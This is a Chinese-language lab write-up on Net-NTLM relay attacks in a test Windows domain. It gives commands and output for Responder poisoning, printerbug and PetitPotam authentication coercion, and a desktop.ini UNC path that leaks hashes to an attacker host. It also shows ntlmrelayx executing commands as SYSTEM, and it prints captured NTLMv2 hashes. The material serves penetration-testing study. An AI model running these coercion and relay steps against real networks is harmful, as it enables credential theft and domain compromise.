



# 零、简介


Net-NTLM Relay攻击发生在NTLM认证的第三步，其中Response消息存在Net-NTLM hash，攻击者获得可以重放进行中间人攻击。

# 一、捕获Net-NTLM Hash
## 0、Responder监听
```plain
┌──(root㉿Kali)-[~]
└─# responder -I eth0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.5.0

  To support this project:
  Github -> https://github.com/sponsors/lgandx
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C

[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    MQTT server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]
    SNMP server                [OFF]

......
```

## 1、LLMNR和NBNS协议
LLMNR（Link‑Local Multicast Name Resolution）和 NBNS（NetBIOS Name Service）都是在本地网络中，用来把主机名（NetBIOS 名称或 DNS 名称）解析成 IP 地址的协议，但它们的工作方式和使用场景略有不同：

| 特性 | NBNS | LLMNR |
| --- | --- | --- |
| 端口 | UDP 137 | UDP 5355 |
| 传输方式 | 广播（Broadcast） | 组播（Multicast） |
| 标准/发布年份 | NBT（1980s–1990s） | RFC 4795（2007） |
| 支持环境 | 主要是 Windows/老旧设备 | Windows Vista+、部分 Linux 与 macOS 实现 |
| 安全性 | 易被广播风暴、NBT‑SS 欺骗攻击 | 虽较广播更节省，但同样易被本地链路欺骗 |

当用户输入任意一个不存在的网络名，系统就会发送LLMNR/NBNS数据包，攻击者在广播/组播中收到请求报文后，会告诉系统自己就是该不存在用户名的客户端，且要求客户端发送Net-NTLM Hash进行认证



```plain
[+] Listening for events...

[*] [NBT-NS] Poisoned answer sent to 10.10.4.2 for name ADSDSDAS (service: File Server)
[*] [MDNS] Poisoned answer sent to 10.10.4.2       for name adsdsdas.local
[*] [MDNS] Poisoned answer sent to fe80::627f:adec:2470:6df5 for name adsdsdas.local
[*] [MDNS] Poisoned answer sent to 10.10.4.2       for name adsdsdas.local
[*] [LLMNR]  Poisoned answer sent to 10.10.4.2 for name adsdsdas
[*] [LLMNR]  Poisoned answer sent to fe80::627f:adec:2470:6df5 for name adsdsdas
[*] [LLMNR]  Poisoned answer sent to fe80::627f:adec:2470:6df5 for name adsdsdas
[*] [MDNS] Poisoned answer sent to fe80::627f:adec:2470:6df5 for name adsdsdas.local
[*] [LLMNR]  Poisoned answer sent to 10.10.4.2 for name adsdsdas
[SMB] NTLMv2-SSP Client   : fe80::627f:adec:2470:6df5
[SMB] NTLMv2-SSP Username : SEC\Administrator
[SMB] NTLMv2-SSP Hash     : Administrator::SEC:b4a57f9aaa7d4db0:4D88835A8E7D9030A0B18460E146098D:010100000000000080826042E7B3DB014734B8A89CBDF9680000000002000800310043003000590001001E00570049004E002D00450044005900450055004E0046003900410045004F0004003400570049004E002D00450044005900450055004E0046003900410045004F002E0031004300300059002E004C004F00430041004C000300140031004300300059002E004C004F00430041004C000500140031004300300059002E004C004F00430041004C000700080080826042E7B3DB0106000400020000000800300030000000000000000000000000300000D60E4649ABA502E233E74DEA3E95BF819CBEFAFF347B0E9E0A83EF39043C4E410A0010000000000000000000000000000000000009001A0063006900660073002F00610064007300640073006400610073000000000000000000
[*] [MDNS] Poisoned answer sent to 10.10.4.2       for name adsdsdas.local
[*] [LLMNR]  Poisoned answer sent to fe80::627f:adec:2470:6df5 for name adsdsdas
[*] [LLMNR]  Poisoned answer sent to 10.10.4.2 for name adsdsdas
```

## 2、打印机漏洞（MS-RPRN）
MS-RPRN协议用于打印机与服务器之间的通信，默认情况下启动。任何经过身份验证的域成员都可以连接到远程服务器的打印服务spoolsv.exe。访问打印机MS-RPRN接口，迫使打印机服务向指定机器发起请求，就能取得目标机器system权限的net-NTLM Hash

```plain
┌──(root㉿Kali)-[~/tools/krbrelayx]
└─# python3 printerbug.py sec.local/hack:"Az123456@"@10.10.4.2 10.10.4.10
[*] Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Attempting to trigger authentication via rprn RPC at 10.10.4.2
[*] Bind OK
[*] Got handle
DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Triggered RPC backconnect, this may or may not have worked

 ------------------------------------------------------------------
 ┌──(root㉿Kali)-[~]
└─# responder -I eth0
 [+] Listening for events...

[SMB] NTLMv2-SSP Client   : 10.10.4.2
[SMB] NTLMv2-SSP Username : SEC\WIN2019-DC1$
[SMB] NTLMv2-SSP Hash     : WIN2019-DC1$::SEC:e3c8aff0a45fcf89:4041FF8226E3E6B86451C7B715F91D57:010100000000000080775DB0F0B3DB0182088364DFFC1565000000000200080046004E003100310001001E00570049004E002D004600460032004C00580036003400440042003200440004003400570049004E002D004600460032004C0058003600340044004200320044002E0046004E00310031002E004C004F00430041004C000300140046004E00310031002E004C004F00430041004C000500140046004E00310031002E004C004F00430041004C000700080080775DB0F0B3DB0106000400020000000800300030000000000000000000000000400000D60E4649ABA502E233E74DEA3E95BF819CBEFAFF347B0E9E0A83EF39043C4E410A0010000000000000000000000000000000000009001E0063006900660073002F00310030002E00310030002E0034002E00310030000000000000000000

```

## 3、PetitPotam（MS-EFSRPC）
PetitPotam利用微软加密文件系统远程协议MS-EFSRPC，攻击机连接到LSARPC强制触发目标机器向指定攻击机发送Net-NTLM Hash

```plain

┌──(root㉿Kali)-[~/tools/PetitPotam]
└─# python3 PetitPotam.py -d sec.local -u hack -p "Az123456@" 10.10.4.2 10.10.4.10
/root/tools/PetitPotam/PetitPotam.py:20: SyntaxWarning: invalid escape sequence '\ '
  show_banner = '''

              ___            _        _      _        ___            _
             | _ \   ___    | |_     (_)    | |_     | _ \   ___    | |_    __ _    _ __
             |  _/  / -_)   |  _|    | |    |  _|    |  _/  / _ \   |  _|  / _` |  | '  \
            _|_|_   \___|   _\__|   _|_|_   _\__|   _|_|_   \___/   _\__|  \__,_|  |_|_|_|
          _| """ |_|"""""|_|"""""|_|"""""|_|"""""|_| """ |_|"""""|_|"""""|_|"""""|_|"""""|
          "`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'

              PoC to elicit machine account authentication via some MS-EFSRPC functions
                                      by topotam (@topotam77)

                     Inspired by @tifkin_ & @elad_shamir previous work on MS-RPRN

Trying pipe lsarpc
[-] Connecting to ncacn_np:10.10.4.10[\PIPE\lsarpc]
Something went wrong, check err
------------------------------------------------
┌──(root㉿Kali)-[~]
└─# responder -I eth0 -wv

[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 10.10.4.10
[SMB] NTLMv2-SSP Username : sec.local\hack
[SMB] NTLMv2-SSP Hash     : hack::sec.local:9f42a36efbcfc382:1D73D103EB03C9973B9160E2233B934A:0101000000000000807F3911F2B3DB01576835356668707500000000020008004500580057004C0001001E00570049004E002D004F00550044004400530057003000530053004F00320004003400570049004E002D004F00550044004400530057003000530053004F0032002E004500580057004C002E004C004F00430041004C00030014004500580057004C002E004C004F00430041004C00050014004500580057004C002E004C004F00430041004C0007000800807F3911F2B3DB010900280063006900660073002F00570049004E002D004F00550044004400530057003000530053004F0032000000000000000000

```

## 4、图标
当图标的一些路径改成指定的UNC路径，就能收到目标机器发来的NTLM请求

新建test文件夹，修改该文件夹图标为任意一个，查看desktop.ini并修改文件



把IconResource修改为指定机器的UNC路径

```plain
[.ShellClassInfo]
IconResource=\\10.10.4.10\aa\SHELL32.dll,23

```

当访问test文件夹的时候，目标机器就把当前用户的Net-NTLM Hash发送给指定UNC路径的机器

注：复现未成功

## 5、浏览器


```plain
[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 10.10.4.2
[SMB] NTLMv2-SSP Username : SEC\Administrator
[SMB] NTLMv2-SSP Hash     : Administrator::SEC:063495c289e81179:3BBD45F2D8903B6B8AEE8DED140596F3:010100000000000080E3DBFDF4B3DB0118DE22E7EF7EA0DF0000000002000800450059004F00590001001E00570049004E002D004C003700390039004F0041004800340052004F00340004003400570049004E002D004C003700390039004F0041004800340052004F0034002E00450059004F0059002E004C004F00430041004C0003001400450059004F0059002E004C004F00430041004C0005001400450059004F0059002E004C004F00430041004C000700080080E3DBFDF4B3DB0106000400020000000800300030000000000000000000000000300000D60E4649ABA502E233E74DEA3E95BF819CBEFAFF347B0E9E0A83EF39043C4E410A0010000000000000000000000000000000000009001E0063006900660073002F00310030002E00310030002E0034002E00310030000000000000000000

```

## 6、Outlook
CVE漏洞

## 7、系统命令
如最常见的net use等

## 8、Office
略

## 9、PDF
略

## 10、WPAD
Web代理自动发现协议

利用难度高，略

## 二、重放Net-NTLM Hash协议
## 1、中继到SMB协议
  在域环境中，普通域用户默认可以登录到除域控外的其他机器，所以可以将域用户的Net-NTLM Hash中继到域内的其他机器

注：执行命令仍然需要域管权限

### 1.1 impacket下的smbrealyx.py
因最新版impacket移除smbrealyx，固略

### 1.2 impacket下的ntlmrelayx.py
```plain
┌──(root㉿Kali)-[~/tools/impacket/examples]
└─# ntlmrelayx.py -t 10.10.4.21 -c whoami -smb2support  -debug
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[+] Impacket Library Installation Path: /root/.local/share/pipx/venvs/impacket/lib/python3.13/site-packages/impacket

[*] Running in relay mode to single host
[*] Setting up SMB Server on port 445
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server on port 9389
[*] Setting up RAW Server on port 6666
[*] Multirelay disabled

[*] Servers started, waiting for connections
[*] SMBD-Thread-5 (process_request_thread): Received connection from 10.10.4.2, attacking target smb://10.10.4.21
[*] Authenticating against smb://10.10.4.21 as SEC/ADMINISTRATOR SUCCEED
[*] All targets processed!
..........
[*] SMBD-Thread-11 (process_request_thread): Connection from 10.10.4.2 controlled, but there are no more targets left!
[*] Service RemoteRegistry is disabled, enabling it
[*] All targets processed!

[*] SMBD-Thread-29 (process_request_thread): Connection from 10.10.4.2 controlled, but there are no more targets left!
[+] ExecuteRemote command: %COMSPEC% /Q /c echo whoami ^> %SYSTEMROOT%\Temp\__output > %TEMP%\execute.bat & %COMSPEC% /Q /c %TEMP%\execute.bat & del %TEMP%\execute.bat
[*] Executed specified command on host: 10.10.4.21
nt authority\system

[*] Stopping service RemoteRegistry
[*] Restoring the disabled state for service RemoteRegistry

```

注：此方法会被杀软拦截

### 1.3 Responder下MulriRelay.py脚本
首先用工具扫描目标机器是否存在签名，不需要签名才能中继

```plain
┌──(root㉿Kali)-[~/tools/Responder/tools]
└─# python3 RunFinger.py -i 10.10.4.0/24
[SMB2]:['10.10.4.2', Os:'Windows 10/Server 2016/2022 (check build)', Build:'17763', Domain:'SEC', Bootime: 'Unknown', Signing:'True', RDP:'True', SMB1:'False', MSSQL:'False']
[SMB2]:['10.10.4.20', Os:'Windows 7/Server 2008R2', Build:'7601', Domain:'SEC', Bootime: '2025-04-13 21:24:05', Signing:'False', RDP:'True', SMB1:'True', MSSQL:'False']
[SMB2]:['10.10.4.21', Os:'Windows 10/Server 2016/2022 (check build)', Build:'19041', Domain:'SEC', Bootime: 'Unknown', Signing:'False', RDP:'True', SMB1:'False', MSSQL:'False']
[SMB1]:['10.10.4.20', Os:'Windows Server 2008 R2 Datacenter 7601 Service Pack 1', Domain:'SEC', Signing:'False', Null Session: 'True', RDP:'True', MSSQL:'False']

```

然后关闭Reponder.conf的smb和http选项

注：根据[https://github.com/lgandx/Responder/issues/292](https://github.com/lgandx/Responder/issues/292) ，的MulriRelay被遗弃，替代品如 ANTNTLMRelay、impacket ntlmrelayx ，所以略

## 2.中继到HTTP
### 2.1 中继到Exchange
```plain
┌──(root㉿Kali)-[~/NtlmRelayToEWS]
└─# python2 ntlmRelayToEWS.py -t https://10.10.4.5/EWS/Exchange.asmx -r getFolder -f inbox -v
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] NtlmRelayX to Exchange Web Services - Author: @Arno0x0x
[*] Running in relay mode to single host
[*] Running in relay mode to single host
[*] Config file parsed
[*] Setting up SMB Server
[*] Setting up HTTP Server

```

由于该程序仅支持SMB1，所以失败了（exchangeRelayx也一样）

### 2.2 ACDS注册接口
略

## 3、中继到LDAP协议
 略